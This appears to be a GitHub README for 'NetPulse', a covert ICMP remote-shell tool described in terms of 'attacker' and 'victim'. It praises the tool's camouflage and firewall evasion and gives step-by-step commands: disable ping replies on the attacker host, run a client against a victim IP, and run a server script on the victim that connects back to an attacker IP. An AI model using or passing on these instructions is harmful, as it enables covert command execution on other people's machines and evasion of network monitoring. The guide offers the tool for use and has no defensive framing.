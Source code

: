 # NetPulse Usage Guide - ICMP SHELL Tool

NetPulse is an ICMP SHELL tool that does not require root access on the victim's side. This guide provides detailed information on how to use NetPulse.

## Advantages of NetPulse
- **No Root Access Required:** NetPulse eliminates the need for root access on the victim's side.
- **Camouflage:** ICMP traffic is common and often allowed in networks and firewalls.
- **Reduced Visibility:** ICMP messages leave no traces in the state tables of most firewalls.
- **Useful in Restrictive Networks:** In networks where TCP or UDP traffic is strictly controlled, ICMP can be an alternative.

## Disadvantages of NetPulse
- **Limited Shell:** NetPulse provides a limited and non-interactive shell.
- **Uncommon Traffic:** Traffic generated by NetPulse can be detected by intrusion detection systems.
- **High Latency:** Compared to a reverse shell, NetPulse is much slower.

## Attacker-Side Configuration
Attacker-side configuration is more complex and requires root access. Follow the steps below:

### Disable Kernel Auto-Response to Pings:

Check the value of the `/proc/sys/net/ipv4/icmp_echo_ignore_all` file:
```bash
$ cat /proc/sys/net/ipv4/icmp_echo_ignore_all
```
Change the value to "1" to disable automatic responses:
```bash
$ echo 1 | sudo tee /proc/sys/net/ipv4/icmp_echo_ignore_all
```
Make the changes permanent in `/etc/sysctl.conf`:
```bash
$ sudo nano /etc/sysctl.conf
```
Add the following line:
```
net.ipv4.icmp_echo_ignore_all = 1
```
Apply the settings:
```bash
$ sudo sysctl -p
```

### Starting the Client

To start the client, execute the [netpulse_client.py](/netpulse_client.py) file with root permissions:

```bash
$ sudo python3 netpulse_client.py -i <interface> <victim-IP>
```
For more options, use the -h flag:
```bash
$ python3 netpulse_client.py -h
```

## Victim-Side Configuration
Victim-side configuration is simpler and does not require root access. Ensure that the following tools are installed:

- [iputils-ping](https://packages.debian.org/bullseye/iputils-ping) - Tool for testing the reachability of network hosts.
- [xxd](https://packages.debian.org/bullseye/xxd) - Tool for creating (or reversing) a hexadecimal dump.

If all the necessary tools are installed, run the [netpulse_server.sh](/netpulse_server.sh) file:
```bash
$ chmod +x netpulse_server.sh && ./netpulse_server.sh <attacker-IP>
```

# Buy me a Coffee :p

<a href="https://www.buymeacoffee.com/ryan.r" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/default-orange.png" alt="Buy Me A Coffee" height="41" width="174"></a>
